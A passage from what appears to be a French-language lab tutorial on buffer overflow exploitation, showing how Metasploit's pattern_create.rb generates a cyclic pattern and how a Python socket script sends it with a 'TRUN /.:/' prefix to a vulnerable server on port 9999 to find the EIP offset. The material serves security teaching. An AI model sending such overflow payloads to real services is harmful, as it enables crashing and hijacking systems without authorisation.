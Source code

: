 
### Étape 2 : Création d’un Modèle pour Identifier l’Offset

Génération du modèle :

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

📸 **Modèle généré :**  
![Création modèle 3000 caratères](./modele.png)

```bash
#!/usr/bin/python
import sys, socket

pattern = "Aa0Aa1Aa2..."  # Modèle généré
try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.1.24', 9999))
    payload = "TRUN /.:/" + pattern
    s.send((payload.encode()))
    s.close()
except:
    print("Erreur lors de la connexion au serveur")
    sys.exit()

```

Envoi du modèle vers l'application vulnérable.

📸 **EIP écrasé par `386F4337` :**  
